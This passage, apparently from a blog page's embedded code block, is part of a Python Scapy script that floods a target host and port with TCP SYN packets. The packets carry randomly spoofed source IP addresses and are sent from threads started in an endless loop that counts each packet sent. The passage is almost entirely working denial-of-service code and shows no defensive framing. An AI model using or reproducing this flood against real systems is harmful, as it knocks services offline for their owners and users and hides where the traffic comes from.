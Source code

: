 		i = IP()
		i.src = "%i.%i.%i.%i" % (random.randint(1,254),random.randint(1,254),random.randint(1,254),random.randint(1,254))
		i.dst = target

		t = TCP()
		t.sport = random.randint(1,65535)
		t.dport = port
		t.flags = 'S'

		send(i/t, verbose=0)

print "Flooding %s:%i with SYN packets." % (target, port)
while 1:
	sendSYN().start()
	total += 1
	sys.stdout.write("\rTotal packets sent:\t\t\t%i" % total)


  {% endhighlight %}



